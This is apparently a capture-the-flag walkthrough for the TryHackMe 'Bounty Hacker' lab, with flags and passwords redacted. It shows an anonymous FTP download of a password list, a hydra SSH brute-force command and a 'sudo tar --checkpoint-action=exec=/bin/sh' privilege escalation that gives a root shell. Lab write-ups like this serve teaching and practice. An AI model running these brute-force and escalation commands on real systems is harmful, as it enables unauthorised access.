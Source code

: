 # 🕵️‍♂️ Bounty Hacker CTF Walkthrough  
*TryHackMe Room: Bounty Hacker*  
*Difficulty: Easy*  
*Date: 2025-07-19*

---

## 🎯 Objective  
Capture the **user** and **root** flags.

---

## 🛠️ Enumeration

### 🔍 Nmap Scan

```

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3 (anonymous login allowed)
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu
80/tcp open  http    Apache 2.4.18 (Ubuntu)

````

---

## 📂 FTP Access

- Connected with **anonymous** FTP.
- Timeout on listing, but guessed filenames.
- Downloaded:

  - `locks.txt` → password list
  - `task.txt` → mentions user `lin` and a password hint

---

## 🔑 SSH Brute Force

Used `hydra` to brute-force SSH for user `lin`:

```bash
hydra -l lin -P locks.txt ssh://bountyhacker.thm
````

→ **Success** with credentials (redacted)

---

## 💻 User Access

```bash
ssh lin@bountyhacker.thm
# password: <REDACTED>
```

✅ Logged in as `lin`.

```bash
cat user.txt
# → <REDACTED>
```

---

## 🚀 Privilege Escalation

### 🔍 Check sudo access

```bash
sudo -l
# (root) /bin/tar
```

User `lin` can run `tar` as root.

### 📈 Exploit via GTFOBins

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

✅ Got root shell!

```bash
whoami
# → root

cat /root/root.txt
# → <REDACTED>
```

---

## 📚 Lessons Learned

* Anonymous FTP might hide files—guessing and brute-force helps.
* Pay attention to any password-related files (`locks.txt`).
* `sudo -l` is key to finding privilege escalation vectors.
* GTFOBins provides reliable privesc tactics—like abusing `tar`.

---

## 🏷️ Tags

`tryhackme` `ctf` `bountyhacker` `ftp` `ssh` `gtfobins` `linux` `beginner` `privesc`

```

